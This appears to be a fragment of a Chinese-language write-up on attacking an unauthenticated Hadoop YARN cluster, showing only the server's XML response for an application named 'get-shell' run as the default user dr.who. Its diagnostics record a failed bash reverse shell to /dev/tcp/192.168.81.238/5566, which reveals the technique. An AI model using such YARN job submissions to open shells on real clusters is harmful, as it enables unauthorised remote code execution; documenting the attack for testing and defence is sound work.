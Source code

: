 	- 返回信息
```
<app>
<id>application_1688957760252_0016</id>
<user>dr.who</user>
<name>get-shell</name>
<queue>default</queue>
<state>FAILED</state>
<finalStatus>FAILED</finalStatus>
<progress>0.0</progress>
<trackingUI>History</trackingUI>
<trackingUrl>http://1aed46d5d18f:8088/cluster/app/application_1688957760252_0016</trackingUrl>
<diagnostics>Application application_1688957760252_0016 failed 2 times due to AM Container for appattempt_1688957760252_0016_000002 exited with exitCode: 1 Failing this attempt.Diagnostics: Exception from container-launch. Container id: container_1688957760252_0016_02_000001 Exit code: 1 Exception message: /bin/bash: connect: Connection refused /bin/bash: /dev/tcp/192.168.81.238/5566: Connection refused Stack trace: ExitCodeException exitCode=1: /bin/bash: connect: Connection refused /bin/bash: /dev/tcp/192.168.81.238/5566: Connection refused at org.apache.hadoop.util.Shell.runCommand(Shell.java:972) at org.apache.hadoop.util.Shell.run(Shell.java:869) at org.apache.hadoop.util.Shell$ShellCommandExecutor.execute(Shell.java:1170) at org.apache.hadoop.yarn.server.nodemanager.DefaultContainerExecutor.launchContainer(DefaultContainerExecutor.java:236) at org.apache.hadoop.yarn.server.nodemanager.containermanager.launcher.ContainerLaunch.call(ContainerLaunch.java:305) at org.apache.hadoop.yarn.server.nodemanager.containermanager.launcher.ContainerLaunch.call(ContainerLaunch.java:84) at java.util.concurrent.FutureTask.run(FutureTask.java:266) at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142) at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617) at java.lang.Thread.run(Thread.java:748) Container exited with a non-zero exit code 1 For more detailed output, check the application tracking page: http://1aed46d5d18f:8088/cluster/app/application_1688957760252_0016 Then click on links to logs of each attempt. . Failing the application.</diagnostics>
<clusterId>1688957760252</clusterId>
<applicationType>YARN</applicationType>
<applicationTags/>
<priority>-1</priority>
<startedTime>1688968516137</startedTime>
<finishedTime>1688969160731</finishedTime>
<elapsedTime>644594</elapsedTime>
<amContainerLogs>http://455c7d01c293:8042/node/containerlogs/container_1688957760252_0016_02_000001/dr.who</amContainerLogs>
<amHostHttpAddress>455c7d01c293:8042</amHostHttpAddress>
<allocatedMB>-1</allocatedMB>
<allocatedVCores>-1</allocatedVCores>
<runningContainers>-1</runningContainers>
<memorySeconds>658947</memorySeconds>
<vcoreSeconds>643</vcoreSeconds>
<queueUsagePercentage>0.0</queueUsagePercentage>
<clusterUsagePercentage>0.0</clusterUsagePercentage>
<preemptedResourceMB>0</preemptedResourceMB>
<preemptedResourceVCores>0</preemptedResourceVCores>
<numNonAMContainerPreempted>0</numNonAMContainerPreempted>
<numAMContainerPreempted>0</numAMContainerPreempted>
<preemptedMemorySeconds>0</preemptedMemorySeconds>
<preemptedVcoreSeconds>0</preemptedVcoreSeconds>
<logAggregationStatus>SUCCEEDED</logAggregationStatus>
<unmanagedApplication>false</unmanagedApplication>
<appNodeLabelExpression/>
<amNodeLabelExpression/>
</app>
```

